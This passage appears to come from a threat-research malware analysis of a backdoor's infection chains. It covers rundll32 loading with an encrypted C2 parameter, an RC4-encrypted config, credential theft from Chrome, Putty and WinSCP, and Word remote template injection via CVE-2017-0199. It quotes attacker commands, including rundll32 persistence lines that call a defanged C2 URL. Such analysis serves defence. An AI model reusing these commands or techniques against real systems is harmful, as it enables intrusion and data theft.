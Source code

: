 


1

rundll32.exe %Public%\wmc.dll,#1 4ZK0gYlgqN6ZbKd/NNBWTJOINDc+jJHOFH/9poQ+or9l




The malware checks the command line parameter, decoding it with base64 and decrypting it with an embedded key. The decrypted data contains:

63429981 63407466 45.238.25[.]2 443

To verify the parameter’s legitimacy, the malware XORs the second parameter with the 0x5837 hex value, comparing it with the first parameter. If both values match, the malware returns the decrypted C2 address and port. The malware also loads a configuration file (%Public%\Videos\OfficeIntegrator.dat in this case), decrypting it using RC4. This configuration file contains C2 addresses and the next stage payload path will be loaded. The malware has enriched backdoor functionalities that can control infected machines:

Directory/File manipulation
Process manipulation
Registry manipulation
Executing commands
Updating configuration
Stealing stored data from Chrome, Putty, and WinSCP

These are used to deploy other malware tools to monitor the victim: a keylogger and screenshot taker.
Infection chain #2. Weaponized Word document
Another infection chain we’ve seen started from a malicious Word document. This is where the actor utilized remote template injection (CVE-2017-0199) with an embedded malicious Visual Basic Script. In one file (MD5: e26725f34ebcc7fa9976dd07bfbbfba3) the remotely fetched template refers to the first stage document and reads the encoded payload from it, injecting it to the legitimate process.

Remote template infection chain
The other case embedded a malicious Visual Basic Script and extracted a Powershell agent on the victim’s system. Going through this initial infection procedure results in a Windows executable payload being installed.

Infection chain
The persistence backdoor #1 is created in the Start menu path for the persistence mechanism and spawns the first export function with the C2 address.





rundll32.exe "%appdata%\microsoft\windows\start menu\programs\maintenance\default.rdp",#1 https://sharedocs[.]xyz/jyrhl4jowfp/eyi8t5sjli/qzrk8blr_q/rnyyuekwun/yzm1ncj8yb/a3q==




1

rundll32.exe "%appdata%\microsoft\windows\start menu\programs\maintenance\default.rdp",#1 https://sharedocs[.]xyz/jyrhl4jowfp/eyi8t5sjli/qzrk8blr_q/rnyyuekwun/yzm1ncj8yb/a3q==


